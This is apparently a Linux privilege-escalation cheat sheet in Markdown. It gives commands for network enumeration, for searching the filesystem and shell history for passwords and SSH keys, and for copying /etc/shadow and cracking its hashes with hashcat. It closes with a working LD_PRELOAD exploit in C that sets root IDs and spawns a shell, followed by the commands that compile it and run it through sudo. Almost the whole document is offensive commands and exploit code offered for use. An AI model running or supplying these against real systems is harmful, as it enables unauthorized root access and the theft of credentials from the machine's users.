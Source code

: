 
### Network-Enumeration
```bash
ifconfig or ip a
ip route
arp -a
netstat -ano
```

### Password-Hunting:
```bash
grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
find . -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
locate password,passwd,secret | more
find / -name id_rsa 2> /dev/null
history | grep pass
```

### Extracting and Cracking Passwords
if the shadow file is accessible 
```bash
cat /etc/passwd > passwd_copy.txt
cat /etc/shadow > shadow_copy.txt
unshadow passwd_copy.txt shadow_copy.txt > unshadowed.txt
hashcat -m 1800 unshadowed.txt rockyou.txt --force
```

## Checking environment :
```bash
env
set
```



### Exploiting LD_PRELOAD env :
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```
``
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
ls -al shell.so
sudo LD_PRELOAD=/tmp/shell.so find
id
whoami
```
